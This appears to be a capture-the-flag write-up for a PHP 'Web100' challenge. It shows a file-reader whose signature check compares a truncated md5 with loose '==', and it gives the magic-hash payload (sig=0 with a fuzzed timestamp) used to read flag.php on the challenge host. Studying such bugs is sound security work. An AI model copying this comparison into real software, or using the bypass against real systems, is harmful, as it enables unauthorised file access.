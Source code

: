 Source code :

<?php
    function checksig($filename, $timestamp, $sig, $secretkey)
    {
        $realsig = substr(md5($filename.$timestamp.$secretkey),0,16);
        if ($sig == $realsig)
        {
            $filename = './'.str_replace('/','',$filename);
            readfile($filename);
            die(0);
        }
        echo "Invalid Signature!";
    }

$secretkey = "XXXXXXXXXXXXXXXXXXXXXXXXX";//This is not real $secretkey, ignore it !!!
echo "<html>
    <title>Web100</title>
    <body>
    <br>Dare to read flag.php???<br>
    <a href='web100.php?filename=test.php&timestamp=13371337&sig=d7a52c3ed325ef19'>Click me</a><br>
    </body>";
if (isset($_GET['filename'])&&isset($_GET['sig'])&&isset($_GET['timestamp']))
    {
        checksig($_GET['filename'],$_GET['timestamp'],$_GET['sig'], $secretkey);
        die(0);
    }
echo "Something's missing!!";
echo "</html>";
?>


Vul at:         $realsig = substr(md5($filename.$timestamp.$secretkey),0,16);
                  if ($sig == $realsig)

I thought it 's hash length attack but $secretkey at the last canot modified.
So, it isn't hash length attack.
In php 0e123456 = 0*10^123456= 0, so if ($sig == $realsig) return true if $sig=0 and $realsig= 0exxxxxx with xxxxxx is decimal.
So, payload = http://readfile.svattt.org:8888/web100.php?filename=flag.php&timestamp={fuzzing}&sig=0
U can fuzz with burpsuite or ur coding skill :D

finally payload:  http://readfile.svattt.org:8888/web100.php?filename=flag.php&timestamp=862&sig=0
